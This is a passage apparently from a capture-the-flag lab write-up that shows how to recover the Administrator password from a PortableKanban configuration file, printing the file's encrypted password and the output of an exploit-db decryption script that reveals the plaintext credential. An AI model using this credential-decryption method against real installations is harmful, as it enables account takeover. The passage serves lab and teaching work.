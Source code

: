 ![kanban](/assets/img/Posts/Atom/kanban.png) 

## Method 2
You can even crack the password with exploit-db's python script.
PortableKanban.pk3:
```json
{"Columns":[],"Tasks":[],"TimeTracks":[],"Persons":[],"Topics":[],"Tags":[],"Views":[],"Users":[{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi","Role":"Admin","Inactive":false,"TimeStamp":637530169606440253}],"ServiceMessages":[],"CustomFieldDescriptors":[],"MetaData":{"Id":"ffffffffffffffffffffffffffffffff","SchemaVersion":"4.2.0.0","SchemaVersionModified":"\/Date(1625269320000+0530)\/","SchemaVersionModifiedBy":"e8e29158d70d44b1a1ba4949d52790a0","SchemaVersionChecked":"\/Date(-62135596800000-0000)\/","SchemaVersionCheckedBy":"00000000000000000000000000000000","TimeStamp":637608661419764547}}
```
Decrypt password:
```bash
$ python3 49409.py ./PortableKanban.pk3
Administrator:kidvscat_admin_@123
```
--- 
## Method 3
You can modify the whole script to decrypt encrypted password without ever installing Kanban in the first place.
